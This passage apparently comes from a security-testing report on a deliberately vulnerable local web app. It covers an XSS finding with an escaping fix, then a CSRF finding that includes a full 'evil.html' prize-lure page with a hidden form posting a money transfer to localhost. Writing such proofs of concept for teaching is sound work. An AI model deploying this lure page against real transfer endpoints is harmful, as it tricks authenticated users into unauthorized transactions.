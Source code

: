 #### **Expected Result**
A browser popup displays the alert message "XSS Vulnerability!".

#### **Why This Happens**
- User input is rendered in the DOM without sanitization.

#### **Google Lighthouse Insights**
- Missing Content-Security-Policy headers flagged.
- Warned about the absence of X-XSS-Protection.

#### **Recommendation**
- Escape user input before rendering it:
   ```python
   from markupsafe import escape
   return f"Search results for: {escape(query)}"
   ```

### **3. CSRF (Cross-Site Request Forgery)**

#### **Description**
The transfer endpoint lacks CSRF protection, allowing unauthorized transactions when a user is authenticated.

#### **Test Environment Setup**
1. **Initial Setup**:
   ```bash
   # Create a directory for the malicious site
   mkdir csrf-attack
   cd csrf-attack
   ```

2. **Create the Malicious Site**:
   Create `evil.html`:
   ```html
   <!DOCTYPE html>
   <html>
   <head>
       <title>Win a Prize!</title>
       <style>
           body { font-family: Arial, sans-serif; text-align: center; padding: 20px; }
           button { padding: 15px 30px; font-size: 18px; background-color: #4CAF50; 
                   color: white; border: none; cursor: pointer; }
           button:hover { background-color: #45a049; }
       </style>
   </head>
   <body>
       <h1>🎉 Congratulations! You've Won! 🎉</h1>
       <h2>Click below to claim your $100 prize!</h2>
       <button onclick="document.getElementById('csrf-form').submit()">
           🎁 Claim Your Prize Now! 🎁
       </button>
       
       <!-- Hidden CSRF form -->
       <form id="csrf-form" action="http://localhost:5000/transfer" 
             method="POST" style="display: none;">
           <input type="hidden" name="to_user" value="admin">
           <input type="hidden" name="amount" value="100">
       </form>
   </body>
   </html>
   ```
